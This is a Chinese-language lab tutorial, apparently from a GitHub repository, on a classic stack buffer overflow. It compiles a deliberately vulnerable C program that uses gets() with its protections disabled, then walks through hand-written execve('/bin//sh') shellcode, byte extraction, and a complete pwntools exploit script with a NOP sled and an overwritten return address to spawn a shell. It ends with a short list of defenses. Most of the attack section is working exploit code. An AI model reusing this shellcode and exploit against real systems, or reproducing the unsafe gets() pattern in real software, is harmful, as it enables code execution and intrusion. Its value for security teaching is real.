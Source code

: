 ## 缓冲区溢出实验(关闭栈保护，运行栈执行，关闭位置无关)

### 1. 环境准备

#### 1.1 编译程序
```bash
gcc -fno-stack-protector -z execstack -no-pie vuln.c -o vuln
```

编译选项说明：
- `-fno-stack-protector`：关闭栈保护
- `-z execstack`：允许栈执行
- `-no-pie`：关闭位置无关代码

#### 1.2 安装pwntools
```bash
python -m pip install --user pwntools
```

### 2. 漏洞程序分析

漏洞程序源码（vuln.c）：
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[128];
    printf("Buffer address: %p\n", buffer);
    gets(buffer);
    printf("Your input: %s\n", buffer);
}

int main() {
    printf("This is a buffer overflow experiment!\n");
    vulnerable_function();
    return 0;
}
```

漏洞分析：
1. 程序使用不安全的`gets()`函数读取用户输入
2. 没有对输入长度进行检查
3. 128字节的缓冲区可被溢出，覆盖返回地址
4. 程序会打印缓冲区地址，便于构造攻击

### 3. Shellcode准备

#### 3.1 编写shellcode（shellcode.asm）
```nasm
BITS 64
section .text
global _start
_start:
    xor rdi, rdi        ; 清零rdi
    xor rsi, rsi        ; 清零rsi
    xor rdx, rdx        ; 清零rdx
    xor rax, rax        ; 清零rax
    push rax            ; 压入null
    mov rbx, 0x68732f2f6e69622f ; "/bin//sh"
    push rbx
    mov rdi, rsp        ; 第一个参数：字符串地址
    mov al, 59          ; execve系统调用号
    syscall
```

#### 3.2 生成shellcode
```bash
# 1. 编译汇编代码为目标文件
nasm -f elf64 shellcode.asm -o shellcode.o

# 2. 链接生成可执行文件
ld shellcode.o -o shellcode

# 3. 提取shellcode
# 使用objdump提取机器码并格式化
for i in $(objdump -d shellcode -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done
```

生成的shellcode（31字节）：
```python
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
```

shellcode分析：
1. `\x48\x31\xff` - xor rdi, rdi    # 清零rdi
2. `\x48\x31\xf6` - xor rsi, rsi    # 清零rsi
3. `\x48\x31\xd2` - xor rdx, rdx    # 清零rdx
4. `\x48\x31\xc0` - xor rax, rax    # 清零rax
5. `\x50` - push rax                 # 压入null
6. `\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68` - mov rbx, "/bin//sh"
7. `\x53` - push rbx                 # 压入字符串
8. `\x48\x89\xe7` - mov rdi, rsp    # 设置第一个参数
9. `\xb0\x3b` - mov al, 59          # execve系统调用号
10. `\x0f\x05` - syscall            # 执行系统调用

### 4. 攻击脚本分析

exploit.py使用生成的shellcode：
```python
# exploit.py
from pwn import *

# 启用调试输出
context.log_level = 'debug'
context.arch = 'amd64'
context.bits = 64
context.terminal = ['gnome-terminal', '-e']

# 设置程序路径
binary = './vuln'

# 启动程序
p = process(binary)

# 接收程序输出直到缓冲区地址
p.recvuntil(b'Buffer address: ')
buffer_addr = int(p.recvline().strip(), 16)
print(f"[+] Buffer address: {hex(buffer_addr)}")

# 使用生成的shellcode
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
print(f"[+] Shellcode length: {len(shellcode)} bytes")

# 构造攻击载荷
nop_sled = b"\x90" * 64
padding = b"A" * (128 + 8 - len(nop_sled) - len(shellcode))
ret_addr = p64(buffer_addr + len(nop_sled))

payload = nop_sled + shellcode + padding + ret_addr

print(f"[+] Payload length: {len(payload)} bytes")
print(f"[+] Return address: {hex(buffer_addr + len(nop_sled))}")

# 发送攻击载荷
print("[+] Sending payload...")
p.sendline(payload)

# 尝试执行一些命令
print("[+] Trying to execute commands...")
p.sendline(b"id")
p.sendline(b"whoami")
p.sendline(b"pwd")

# 获取shell
print("[+] Getting shell...")
p.interactive()
```

攻击载荷构成：
1. NOP滑板（64字节）：用于增加攻击成功率
2. Shellcode（31字节）：用于获取shell
3. 填充数据：填充到返回地址位置
4. 返回地址：指向NOP滑板中间位置

### 5. 执行攻击

```bash
python3 exploit.py
```

成功后将获得一个shell，可以执行：
- id
- whoami
- pwd
等命令验证攻击效果

### 6. 防护措施

以下安全机制可以防止此类攻击：
1. 栈保护（Stack Canary）
2. 不可执行栈（NX）
3. 地址随机化（ASLR）
4. 使用安全的输入函数（如fgets）
5. 输入长度检查

### 7. 实验总结

本实验演示了：
1. 基本的栈溢出原理
2. Shellcode的编写和使用
3. 攻击脚本的构造方法
4. 绕过基本防护机制的方法